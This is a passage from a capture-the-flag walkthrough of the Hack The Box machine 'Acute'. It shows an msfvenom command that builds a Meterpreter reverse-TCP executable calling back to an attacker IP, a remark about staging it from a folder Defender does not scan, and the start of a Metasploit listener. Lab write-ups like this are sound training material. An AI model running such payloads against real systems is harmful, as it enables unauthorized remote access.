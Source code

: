 #### Find Computer

I’ll try again with the same creds, but use the computer name from the
metadata, “Acute-PC01”. It works:

![image-20220607124505230](https://0xdfimages.gitlab.io/img/image-20220607124505230.png)

### Meterpreter

#### Strategy

Enumerating through this web access console is a bit of a pain. When I go to
run [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-
scripts-suite/tree/master/winPEAS) in a bit, the output is messed up, and the
history too short to see it all. I’m going to use this access to get a reverse
shell.

Typically I try to avoid using Meterpreter on HTB machines because (a) I like
to understand what’s going on to better learn, and (b) many people reading
writeups are practicing for exams where Meterpreter is not allowed / limited.

That said, there’s a step coming that is made possible (or at least
significantly easier) with Meterpreter, so I’ll use that here.

#### Generate Payload

I’ll use `msfvenom` to generate a reverse shell using Meterpreter in an
executable format:

    
    
    oxdf@hacky$ msfvenom -p windows/x64/meterpreter/reverse_tcp LPORT=4444 LHOST=10.10.14.6 -f exe -o rev.exe
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 510 bytes
    Final size of exe file: 7168 bytes
    Saved as: rev.exe
    

I don’t have to worry about any obfuscation or encoding, as I will find in a
minute a Defender-free folder to stage from. I’m using a high port so I don’t
have to start `msfconsole` as root.

#### Start Listener

I’ll run `msfconsole` to start Metasploit, and then run `use
exploit/multi/handler` to get the “exploit” that just listens for a reverse
connection and starts a session with it.

I’ll set the `payload`, `lhost`a and `lport` to match what I used in
`msfvenom`, and then `run`:

    
    
    msf6 exploit(multi/handler) > run
    